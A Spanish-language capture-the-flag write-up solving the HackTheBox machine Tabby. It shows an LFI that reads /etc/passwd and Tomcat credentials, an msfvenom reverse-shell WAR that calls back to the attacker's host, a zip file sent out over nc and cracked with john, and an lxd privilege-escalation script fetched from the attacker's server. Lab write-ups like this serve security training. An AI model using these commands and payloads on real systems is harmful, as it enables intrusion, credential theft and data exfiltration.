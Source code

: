 ```yaml
---
title: HackTheBox - Tabby
categories: [Linux]
tags: [HackTheBox]
image: tabby.png 
img_path: /assets/HTB/Tabby/
---
```


En este post voy a explicar como resolver la máquina Tabby de [Hack The Box](https://app.hackthebox.com/machines/259), en la cual vamos a estar tocando un LFI para obtener credenciales y así poder subir un archivo malicioso y para la escalada vamos a estar abusando de una vulnerabilidad del grupo ```lxd```.

## Escaneo de puertos

```
# nmap -p- -sS --min-rate 5000 -sCV -oN nmap -n -Pn 10.10.10.194
Nmap scan report for 10.10.10.194
Host is up (0.25s latency).
Not shown: 65532 closed tcp ports (reset)
PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 8.2p1 Ubuntu 4 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   3072 453c341435562395d6834e26dec65bd9 (RSA)
|   256 89793a9c88b05cce4b79b102234b44a6 (ECDSA)
|_  256 1ee7b955dd258f7256e88e65d519b08d (ED25519)
80/tcp   open  http    Apache httpd 2.4.41 ((Ubuntu))
|_http-title: Mega Hosting
|_http-server-header: Apache/2.4.41 (Ubuntu)
8080/tcp open  http    Apache Tomcat
|_http-title: Apache Tomcat
|_http-open-proxy: Proxy might be redirecting requests
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

Como vemos, la página tiene los puertos 22 (SSH), 80 (HTTP) y 8080(HTTP - Tomcat) abiertos.

## Enumeración
Al ingresar al servidor web que está corriendo en el puerto 80, vemos esto.

<img src="tabby-index-80.png">

Al analizar la página web, vemos que el botón ```News``` nos redirige a ```megahosting.htb``` el cual agregamos a nuestro archivo ```/etc/hosts```.

```
$ echo "10.10.10.194    megahosting.htb" >> /etc/hosts
```

Regresamos nuevamente a la página y vemos que en la URL hay un parámetro llamado ```file```, el cual apunta al archivo ```statement```, posiblemente tenga una vulnerabilidad de ```LFI```.

```
$ curl -s http://megahosting.htb/news.php?file=../../../../etc/passwd | grep "sh$"

root:x:0:0:root:/root:/bin/bash
ash:x:1000:1000:clive:/home/ash:/bin/bash
```

Si leemos el archivo '''/etc/passwd''' de la máquina víctima, descubrimos el usuario '''ash'''.

Al ingresar al servidor web que está corriendo en el puerto ```8080```, vemos esto.

<img src="tabby-index-8080.png">

Analizando la página, vemos que nos habla de un archivo llamado ```tomcat-users.xml```, si lo intentamos visualizar mediante el ```LFi```, no vamos a ver nada, ya que no se encuentra en esa ruta, pero si buscamos rutas alternativas en las cuales se encuentre ese archivo, encontraremos la siguiente ```/usr/share/tomcat9/etc/tomcat-users.xml```

```
$ curl -s http://megahosting.htb/news.php?file=../../../../usr/share/tomcat9/etc/tomcat-users.xml | tail -n 2

<user username="tomcat" password="$3cureP4s5w0rd123!" roles="admin-gui,manager-script"/>
</tomcat-users>
```

Si usamos las credenciales obtenidas para logearnos en la ruta ```/manager/html```, nos aparecerá lo siguiente.

<img src="login-manager-html.png">

Probemos listar las aplicaciones existentes desde terminal haciendo uso de curl y las credenciales anteriormente obtenidas.

```
$ curl -s -u 'tomcat:$3cureP4s5w0rd123!' -X GET 'http://10.10.10.194:8080/manager/text/list'

OK - Listed applications for virtual host [localhost]
/:running:0:ROOT
/examples:running:0:/usr/share/tomcat9-examples/examples
/host-manager:running:0:/usr/share/tomcat9-admin/host-manager
/manager:running:0:/usr/share/tomcat9-admin/manager
/docs:running:0:/usr/share/tomcat9-docs/docs
```

Como vemos, podemos listar las ```aplicaciones```, intentemos subir un archivo ```.war``` el cual se encargue de mandarnos una ```reverse shell``` a nuestro equipo, para crearlo vamos a hacer uso de msfvenom.

```
$ msfvenom -p java/jsp_shell_reverse_tcp LHOST=10.10.14.9 LPORT=443 -f war -o reverse.war
Payload size: 1083 bytes
Final size of war file: 1083 bytes
Saved as: reverse.war

$ curl -s -u 'tomcat:$3cureP4s5w0rd123!' 'http://10.10.10.194:8080/manager/text/deploy?path=/reverse' --upload-file reverse.war
OK - Deployed application at context path [/reverse]
```

## Reverse Shell

Para ganar acceso a la máquina, nos mandaremos la Reverse Shell haciendo una petición al archivo recién subido.

```
$ curl -X GET 'http://10.10.10.194:8080/reverse/'
```

```
$ nc -lvnp 443
listening on [any] 443 ...
connect to [10.10.14.9] from (UNKNOWN) [10.10.10.194] 49110
script /dev/null -c bash
Script started, file is /dev/null
tomcat@tabby:/var/lib/tomcat9$ ^Z
[1]  + 4675 suspended  sudo nc -lvnp 443

$ stty raw -echo; fg
[1]  + 4675 continued  sudo nc -lvnp 443
                                        reset xterm

tomcat@tabby:/var/lib/tomcat9$ export TERM=xterm
tomcat@tabby:/var/lib/tomcat9$ export SHELL=bash
tomcat@tabby:/var/lib/tomcat9$ stty rows 53 columns 235
```

##  Enumeración del sistema
Enumerando directorios, encontré un archivo comprimido y protegido por contraseña en la ruta ```/var/www/html/files```, el cual se llama ```16162020_backup.zip``` y le pertenece al usuario ```ash```, vamos a traerlo a nuestra máquina para intentar extraer la contraseña mediante un ataque de fuerza bruta haciendo uso de ```zip2john``` y ```john```.


```
$ tomcat@tabby:/var/www/html/files$ cat 16162020_backup.zip | nc 10.10.14.9 6969
```

```
$ nc -lvnp 6969 > 16162020_backup.zip
listening on [any] 6969 ...
connect to [10.10.14.9] from (UNKNOWN) [10.10.10.194] 50784
^C

$ ls
16162020_backup.zip  nmap  reverse.war
```

```
$ zip2john 16162020_backup.zip > hash &>/dev/null
$ john -w=/usr/share/wordlists/rockyou.txt hash
Using default input encoding: UTF-8
Loaded 1 password hash (PKZIP [32/64])
Will run 4 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
admin@it         (16162020_backup.zip)
1g 0:00:00:00 DONE (2022-12-10 22:00) 1.315g/s 13635Kp/s 13635Kc/s 13635KC/s adornadis..adhi1411
Use the "--show" option to display all of the cracked passwords reliably
Session completed.
```

Al descomprimir el archivo con la contraseña recién obtenida, veremos que no hay gran cosa, pero podemos probar si hay ```reutilización de contraseñas```.

```
tomcat@tabby:/var/www/html/files$ su ash
Password: admin@it
ash@tabby:/var/www/html/files$
```

Al poner el comando ```id```, veremos que estamos en el grupo ```lxd```.

```
ash@tabby:/var/www/html/files$ id
uid=1000(ash) gid=1000(ash) groups=1000(ash),4(adm),24(cdrom),30(dip),46(plugdev),116(lxd)
```
## Escalada de privilegios
Si buscamos con la herramienta searchsploit vulnerabilidades para el grupo ```lxd```, veremos que nos lanzara un script creado por S4vitar y Vowkin.

```
$ searchsploit lxd
------------------------------------------------------------------------------
Exploit Title                                          |  Path
------------------------------------------------------------------------------
Ubuntu 18.04 - 'lxd' Privilege Escalation              | linux/local/46978.sh
------------------------------------------------------------------------------

$ searchsploit -m linux/local/46978.sh
Exploit: Ubuntu 18.04 - 'lxd' Privilege Escalation
      URL: https://www.exploit-db.com/exploits/46978
     Path: /usr/share/exploitdb/exploits/linux/local/46978.sh
    Codes: N/A
 Verified: False
File Type: Bourne-Again shell script, Unicode text, UTF-8 text executable

$ wget https://raw.githubusercontent.com/saghul/lxd-alpine-builder/master/build-alpine
$ chmod +x build-alpine
$ ./build-alpine
$ python3 -m http.server 6969
Serving HTTP on 0.0.0.0 port 6969 (http://0.0.0.0:6969/) ...
```

```
ash@tabby:/var/www/html/files$ cd /dev/shm
ash@tabby:/dev/shm$ curl -s http://10.10.14.9:6969/46978.sh -o lxd.sh
ash@tabby:/dev/shm$ curl http://10.10.14.9:6969/alpine-v3.17-x86_64-20221210_2249.tar.gz -o alpine.tar.gz
ash@tabby:/dev/shm$ chmod +x lxd.sh

ash@tabby:/dev/shm$ ./lxd.sh -f alpine-v3.17-x86_64-20221210_2249.tar.gz
[*] Listing images...

+--------+--------------+--------+-------------------------------+--------------+-----------+--------+------------------------------+
| ALIAS  | FINGERPRINT  | PUBLIC |          DESCRIPTION          | ARCHITECTURE |   TYPE    |  SIZE  |         UPLOAD DATE          |
+--------+--------------+--------+-------------------------------+--------------+-----------+--------+------------------------------+
| alpine | 761ea182e2d3 | no     | alpine v3.17 (20221210_22:49) | x86_64       | CONTAINER | 3.60MB | Dec 11, 2022 at 2:55am (UTC) |
+--------+--------------+--------+-------------------------------+--------------+-----------+--------+------------------------------+
Creating privesc
Device giveMeRoot added to privesc
~ # cd /mnt/root/root/
~ # cat root.txt
36b7b242c4b5a18da843964094ee37ad
```
